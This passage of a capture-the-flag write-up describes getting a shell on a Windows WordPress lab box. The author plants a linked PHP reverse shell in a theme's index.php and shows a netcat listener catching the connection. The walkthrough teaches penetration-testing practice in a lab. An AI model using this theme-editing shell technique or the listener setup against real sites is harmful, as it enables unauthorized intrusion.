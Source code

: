 <br>

We find that Wade is the only user on the system, get an email address, and notice that he's an administrator on the site.

I look around through the menu system under tools, settings, etc and it looks like we can potentially upload a reverse shell under the **media menu**. I give this a try and there are filters in place preventing that from happening.

<br>

## Getting a shell

Still on the website under the **appearance menu** is an option to edit the blogs theme. I've previously had success doing this by modifying existing .php files with reverse shell code so let's see if we can do that here.

<br>

![](images/retro9.png)

<br>

I used [**this reverse shell**](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell_older.php). This one is nice because it can be used for Linux, Windows, or MacOS.

Then I edit the **90s Retro: Main Index Template (index.php)** file found on the right hand menu and insert the reverse shell code at the top.

I start up a listener on my system, and then click the blue **Update File** button back on the WordPress site. As soon as I do I get a shell back!

```
┌──(kali㉿kali)-[~/work/shells]
└─$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.6.127.197] from (UNKNOWN) [10.10.2.100] 49780
SOCKET: Shell has connected!
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\inetpub\wwwroot\retro>
```
